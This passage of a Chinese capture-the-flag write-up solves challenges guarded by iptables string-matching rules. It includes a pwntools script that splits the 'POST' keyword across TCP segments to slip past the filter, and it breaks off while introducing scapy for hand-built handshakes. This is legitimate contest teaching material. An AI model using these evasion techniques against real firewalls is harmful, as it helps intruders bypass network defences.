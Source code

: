 ```plaintext

-A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
-A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
COMMIT
```

所有小题都需要 POST 你的 token 到 /，获取 flag，在没有以上规则的情况下，可以直接使用 curl 获取 flag（需要将 114514:asdfgh== 替换成你的 token）：




```bash
curl -X POST -d "114514:asdfgh==" http://题目地址
```

其中：


- 第一小题位于 `http://202.38.93.111:18080`，对应防火墙规则中的 `myTCP-1` 链；
- 第二小题位于 `http://202.38.93.111:18081`，对应防火墙规则中的 `myTCP-2` 链；
- 第三小题位于 `http://202.38.93.111:18082`，对应防火墙规则中的 `myTCP-3` 链。

{% endnote %}
{% endhideToggle %}

### 我的 POST


第一问iptables检测tcp包中含有POST字符串则直接拒绝连接，那么只要将POST拆开来发送就好了：

```python
from pwn import *

r = remote("202.38.93.111", 18080)
token = 'YOUR_TOKEN_HERE'
data = f"""ST / HTTP/1.1\r
Host: 202.38.93.111\r
Content-Type: application/x-www-form-urlencoded\r
Content-Length: {len(token)}\r\n\r
{token}""".encode()
r.send(b"PO")
r.send(data)
response = r.recvall()
print(response.decode())

```

### 我的P


不是很看得懂这个规则，注意到0x50正是P的ASCII码，猜测这个规则是在匹配POST当中的字符P。然而不知道为啥直接把第一问的解法改个端口号就过了。


### 我的GET


第三题的iptables只接受前50字节包含"GET / HTTP"的数据包，那么为什么直接在浏览器访问网址也没有响应呢？猜测是这个规则直接把tcp握手给拒了。

于是大部分的工具例如前面的pwntools都不能用了，因为这些工具首先要建立tcp连接才能进行后续操作。我们需要手动构造tcp握手等数据包。那么一个好用的工具就是Python的scapy库。

